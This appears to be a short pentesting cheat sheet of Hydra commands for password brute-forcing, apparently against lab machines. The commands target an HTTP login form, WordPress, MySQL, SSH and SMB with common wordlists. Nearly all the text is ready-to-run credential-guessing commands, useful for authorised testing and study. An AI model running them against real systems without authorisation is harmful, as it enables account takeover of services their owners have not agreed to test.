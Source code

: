 Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

# Commands

* `hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"`

## WordPress

* `hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I`

## SQL

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## SSH

* `hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh`
* `hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh`

# SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```